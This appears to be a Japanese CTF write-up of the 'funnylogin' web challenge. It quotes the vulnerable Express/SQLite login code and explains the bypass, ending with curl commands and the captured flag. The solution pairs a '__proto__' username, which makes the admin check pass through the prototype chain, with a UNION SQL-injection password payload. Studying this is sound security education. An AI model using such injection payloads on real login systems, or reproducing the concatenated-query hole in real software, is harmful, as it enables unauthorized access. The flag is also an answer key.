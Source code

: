 # funnylogin:web:109pts
can you login as admin?  
NOTE: no bruteforcing is required for this challenge! please do not bruteforce the challenge.  
[funnylogin.mc.ax](https://funnylogin.mc.ax)  

[funnylogin.tar.gz](funnylogin.tar.gz)  

# Solution
URLとソースが渡される。  
アクセスするとただのログインフォームのようだ。  
![site.png](site/site.png)  
ソースを見るとapp.js主要部分は以下のようであった。  
```js
~~~
const users = [...Array(100_000)].map(() => ({ user: `user-${crypto.randomUUID()}`, pass: crypto.randomBytes(8).toString("hex") }));
db.exec(`INSERT INTO users (id, username, password) VALUES ${users.map((u,i) => `(${i}, '${u.user}', '${u.pass}')`).join(", ")}`);

const isAdmin = {};
const newAdmin = users[Math.floor(Math.random() * users.length)];
isAdmin[newAdmin.user] = true;

app.use(express.urlencoded({ extended: false }));
app.use(express.static("public"));

app.post("/api/login", (req, res) => {
    const { user, pass } = req.body;

    const query = `SELECT id FROM users WHERE username = '${user}' AND password = '${pass}';`;
    try {
        const id = db.prepare(query).get()?.id;
        if (!id) {
            return res.redirect("/?message=Incorrect username or password");
        }

        if (users[id] && isAdmin[user]) {
            return res.redirect("/?flag=" + encodeURIComponent(FLAG));
        }
        return res.redirect("/?message=This system is currently only available to admins...");
    }
    catch {
        return res.redirect("/?message=Nice try...");
    }
});
~~~
```
自明なSQLiがある。  
ただし、`users[id] && isAdmin[user]`がtrueの場合のみadminになれるようだ。  
はじめに`isAdmin[user]`について考える。  
大量に作られたユーザの一つだけがランダムに`isAdmin`のキーとして追加されており、誰がadminであるのかわからない。  
adminのユーザ名がわからないが、何とかしてtrueにしてやる必要がある。  
ここで、`__proto__`や`toString`を`user`に指定すると`undefined`にならないことに気づく。  
残りの`users[id]`だがSQLiのUNIONで適当な`id`を返してやればよい。  
以下のように行う。  
```bash
$ curl -X POST https://funnylogin.mc.ax/api/login -d "user=user&pass=pass"
Found. Redirecting to /?message=Incorrect%20username%20or%20password
$ curl -X POST https://funnylogin.mc.ax/api/login -d "user=__proto__&pass=' UNION SELECT id FROM users WHERE id = 1; -- satoki"
Found. Redirecting to /?flag=dice%7Bi_l0ve_java5cript!%7D
```
flagが得られた。  

## dice{i_l0ve_java5cript!}